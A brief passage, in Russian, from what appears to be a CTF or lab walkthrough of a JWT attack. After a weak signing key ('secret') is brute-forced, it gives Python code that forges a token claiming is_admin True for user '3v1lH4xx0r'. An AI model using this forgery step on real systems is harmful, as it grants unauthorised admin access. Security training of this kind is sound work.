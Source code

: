 ![](img/brute_1.png)

В данном случае в качестве ключа использовалась строка secret.

### Шаг 2

Генерируем новый JWT токен, подписаный данным ключом:
```python
import jwt

print(jwt.encode(
            {'username': '3v1lH4xx0r', 'is_admin': True}, 
            key='secret', 
            algorithm='HS256'
            ).decode()
)
```

Полученный JWT токен
